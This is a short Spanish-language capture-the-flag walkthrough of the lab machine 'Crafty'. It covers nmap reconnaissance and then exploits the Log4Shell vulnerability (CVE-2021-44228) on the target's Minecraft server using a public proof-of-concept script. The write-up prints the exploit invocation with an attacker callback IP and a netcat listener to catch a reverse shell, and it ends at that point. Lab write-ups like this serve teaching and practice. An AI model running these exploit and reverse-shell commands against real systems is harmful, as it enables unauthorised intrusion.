

# Crafty

## Nmap

Descubrimos los puertos

    sudo nmap -p- -T4 10.10.11.249

Analizamos los puertos encontrados

    sudo nmap -p 80,25565 -A -T4 10.10.11.249

## Web

La web del puerto 80 no muestra nada, cambiamos el archivo host

Ahora tendremos acceso a la web

## Fuzzing

Buscamos algun tipo de informacion relevante en la web, pero no encontramos nada

## CVE

Después de realizar una búsqueda he encontrado que existe un CVE crítico en la versión del servidor

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Y un repositorio con una poc: [log4j-shell-poc
](https://github.com/kozmer/log4j-shell-poc)

Para ejecutar el exploit necesitamos un archivo llamado ``jdk1.8.0_20``. 

Vamos a la página de [oracle](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html), en el apartado ``8u20`` seleccionamos nuestro sistema operativo 

Lo extraemos en la carpeta del repositorio

    tar -xf jdk-8u20-linux-x64.tar.gz

Ejecutamos la poc, usando la ip de la interfaz ``tun0`` de nuestra máquina virtual

    python3 poc.py --userip 10.10.14.72 --webport 80 --lport 4444

Ponemos el puerto en escucha

    rlwrap nc -lvnp 4444

